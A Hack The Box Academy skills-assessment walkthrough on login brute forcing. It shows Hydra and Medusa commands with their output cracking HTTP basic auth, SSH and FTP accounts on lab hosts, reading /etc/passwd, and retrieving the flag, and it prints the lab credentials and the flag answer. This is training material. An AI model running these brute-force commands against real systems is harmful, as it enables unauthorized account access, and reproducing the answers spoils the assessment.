

# Skil- 1:
-  What is the password for the basic auth login?
- After successfully brute forcing the login, what is the username you have been given for the next part of the skills assessment?

[IP: 83.136.254.243:56064]
We use hydra for the first task:
After see the error [[ERROR] the target is using HTTP auth, not a web form, received HTTP error code 401. Use module "http-get" instead.]
we can use [hydra -l admin -P Dictionaries/rockyou.txt 83.136.254.243  http-get / -s 56064]

```sh
hydra -L Dictionaries/SecLists/Usernames/top-usernames-shortlist.txt -P Dictionaries/SecLists/Passwords/2023-200_most_used_passwords.txt 83.136.254.243  http-get / -s 56064
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-23 11:54:46
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3400 login tries (l:17/p:200), ~213 tries per task
[DATA] attacking http-get://83.136.254.243:56064/
[56064][http-get] host: 83.136.254.243   login: admin   password: Admin123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-23 11:55:35
```

[56064][http-get] host: 83.136.254.243   login: admin   password: Admin123


We must to enumerate the next section, for findo some concedence to the satwossh:
Medusa:
`❯ medusa -h 94.237.57.108 -n 46265 -u satwossh -P Dictionaries/SecLists/Passwords/2023-200_most_used_passwords.txt -M ssh -t 3`
ACCOUNT FOUND: [ssh] Host: 94.237.57.108 User: satwossh Password: password1 [SUCCESS]

ssh satwossh@94.237.57.108 -p 46265
```sh
satwossh@ng-349590-loginbfsatwo-lqj5u-74bd7d7fcf-wkspz:~$ ls
IncidentReport.txt  passwords.txt  username-anarchy
satwossh@ng-349590-loginbfsatwo-lqj5u-74bd7d7fcf-wkspz:~$ 94.237.57.108:46265
-bash: 94.237.57.108:46265: command not found
satwossh@ng-349590-loginbfsatwo-lqj5u-74bd7d7fcf-wkspz:~$ netstat -tulpn | grep LISTEN
(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
satwossh@ng-349590-loginbfsatwo-lqj5u-74bd7d7fcf-wkspz:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
ftp:x:105:107:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
satwossh:x:1000:1000::/home/satwossh:/bin/bash
thomas:x:1001:1001::/var/.hidden:/bin/bash
```
We find the user thomas and now we can check for the password:
```sh
medusa -h 127.0.0.1 -u thomas -P passwords.txt -M ftp -t 5
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: thomas Password: chocolate! [SUCCESS]
```

> [!IMPORTANT]
> User: thomas
> Password: chocolate!

```sh
ftp ftp://thomas@localhost
Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
No entry for terminal type "xterm-kitty";
using dumb terminal settings.
ftp> ls
229 Entering Extended Passive Mode (|||29336|)
150 Here comes the directory listing.
-rw-------    1 1001     1001           28 Sep 10  2024 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||44932|)
150 Opening BINARY mode data connection for flag.txt (28 bytes).
100% |************************************************************************************************|    28      911.45 KiB/s    00:00 ETA
226 Transfer complete.
28 bytes received in 00:00 (186.01 KiB/s)
ftp> exit
221 Goodbye.
satwossh@ng-349590-loginbfsatwo-lqj5u-74bd7d7fcf-wkspz:~$ ls
IncidentReport.txt  flag.txt  passwords.txt  username-anarchy
satwossh@ng-349590-loginbfsatwo-lqj5u-74bd7d7fcf-wkspz:~$ cat flag.txt
HTB{brut3f0rc1ng_succ3ssful}
```
https://academy.hackthebox.com/achievement/349590/57
